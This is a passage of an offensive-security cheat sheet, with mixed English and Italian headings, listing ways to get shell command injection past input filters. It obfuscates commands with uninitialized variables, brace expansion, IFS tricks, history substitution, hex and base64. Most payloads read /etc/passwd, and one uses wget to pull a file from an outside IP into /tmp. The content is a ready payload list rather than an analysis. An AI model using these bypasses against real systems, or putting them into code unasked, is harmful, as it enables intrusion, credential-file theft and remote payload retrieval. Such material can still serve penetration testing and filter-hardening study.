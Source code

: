 ```bash

# Uninitialized variables: A uninitialized variable equals to null (nothing)
cat$u /etc$u/passwd$u # Use the uninitialized variable without {} before any symbol
p${u}i${u}n${u}g # Equals to ping, use {} to put the uninitialized variables between valid characters

# New lines
p\
i\
n\
g # These 4 lines will equal to ping

# Fake commands
p$(u)i$(u)n$(u)g # Equals to ping but 3 errors trying to execute "u" are shown
w`u`h`u`o`u`a`u`m`u`i # Equals to whoami but 5 errors trying to execute "u" are shown

# Concatenation of strings using history
!-1 # This will be substitute by the last command executed, and !-2 by the penultimate command
mi # This will throw an error
whoa # This will throw an error
!-1!-2 # This will execute whoami
```
### Bypass forbidden spaces
```bash
# {form}
{cat,lol.txt} # cat lol.txt
{echo,test} # echo test

# IFS - Internal field separator, change " " for any other character ("]" in this case)
cat${IFS}/etc/passwd # cat /etc/passwd
cat$IFS/etc/passwd # cat /etc/passwd

# Put the command line in a variable and then execute it
IFS=];b=wget]10.10.14.21:53/lol]-P]/tmp;$b
IFS=];b=cat]/etc/passwd;$b # Using 2 ";"
IFS=,;`cat<<<cat,/etc/passwd` # Using cat twice
#  Other way, just change each space for ${IFS}
echo${IFS}test

# Using hex format
X=$'cat\x20/etc/passwd'&&$X

# Using tabs
echo "ls\x09-l" | bash

# Undefined variables and !
$u $u # This will be saved in the history and can be used as a space, please notice that the $u variable is undefined
uname!-1\-a # This equals to uname -a
```
### Bypass backslash e slash
```bash
cat ${HOME:0:1}etc${HOME:0:1}passwd
cat $(echo . | tr '!-0' '"-1')etc$(echo . | tr '!-0' '"-1')passwd
```
### Bypass pipes
```bash
bash<<<$(base64 -d<<<Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==)
```
### Bypass con codifica esadecimale
```bash
echo -e "\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64"
```